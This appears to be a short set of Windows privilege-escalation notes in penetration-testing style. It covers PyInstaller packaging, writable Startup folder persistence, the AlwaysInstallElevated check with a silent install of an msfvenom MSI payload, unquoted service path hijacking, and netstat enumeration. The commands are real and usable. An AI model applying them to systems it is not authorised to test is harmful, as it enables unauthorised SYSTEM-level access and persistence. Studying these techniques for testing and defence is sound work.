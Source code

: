 ### Using Python Scripts without Python installed

[pyinstaller/pyinstaller](https://github.com/pyinstaller/pyinstaller)

[PyInstaller-3.6.zip](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/0038bb61-6902-4698-81a2-7cfdaa0c8354/PyInstaller-3.6.zip)

```bash
pyinstaller yourprogram.py
```

### Startup Application

If you can run programs at startup, the next time someone logs in; you could get a shell before they know what’s happening. Run the following and look for `BUILTIN\\Users` if they have `(F)` or `(C)` it is vulnerable.

```bash
icacls.exe "C:\\ProgramData\\Microsoft\\Windows\\Start Menu\\Programs\\Startup"
```

Simply put an exe in here to have it execute on startup.

### Always Install Elevated

```bash
reg query HKLM\\Software\\Policies\\Microsoft\\Windows\\Installer
reg query HKCU\\Software\\Policies\\Microsoft\\Windows\\Installer

# If both of these are 0x1 - you can install msi packages as system.
# Generate MSI Payload with:
msfvenom [blah blah blah] -f msi -o setup.msi

# Execute it with:
msiexec /quiet /qn /i setup.msi
```

### Unquoted Paths

When windows sees the a service is pointed to `C:\\Program Files\\Something Here\\service.exe` (**without quotes around it**), it will try to run the following in order:

```bash
C:\\Program.exe
C:\\Program Files\\Something.exe
C:\\Program Files\\Something Here\\service.exe
```

If you make sure one of these exists before the legitimate is called, you can get code execution.

### Attacking From The Inside

Some services can only be accessed from inside the victim itself. List all active network connections with:

```bash
netstat -ano
```
